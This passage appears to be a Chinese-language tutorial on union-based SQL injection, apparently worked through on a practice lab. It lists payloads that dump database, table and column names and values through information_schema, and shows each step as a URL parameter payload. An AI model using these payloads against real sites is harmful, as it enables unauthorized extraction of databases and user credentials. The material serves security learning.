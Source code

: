 

#### 类型判断

![image-20210313201034833](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210313201034833.png)

#### 常用替换payload

| 作用   | PAYLOAD                                                      |
| ------ | ------------------------------------------------------------ |
| 爆库名 | select database()                                            |
| 爆表名 | select group_concat(table_name) from information_schema.tables where table_schema=database() |
| 爆列名 | select group_concat(column_name) from information_schema.columns where table_name='表名' |
| 爆值   | select group_concat(列名,……) from 表名                       |



#### 1.union联合注入

**格式：**?id=0' union select 1,2,**PAYLOAD**--+

> union()：用于合并两个或多个 SELECT 语句的结果集，一起输出。
>
> 注意：UNION 内部的 SELECT 语句必须拥有相同数量的列。因此有时需要占位的字符。



例题的判断闭合为：单引号字符型闭合；数据库3列，其中2，3位回显

**查库名**

```
?id=0' union select 1,2,database() --+		#这里的1,2就是凑列数
```

![image-20210313201759286](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210313201759286.png)

**查表名**

```
?id=0' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema="security" --+
```

![image-20210313202051065](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210313202051065.png)

查字段

```
?id=0' union select 1,2,group_concat(column_name) from information_schema.columns where table_name="users"--+
```

![image-20210313202448350](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210313202448350.png)

取得值
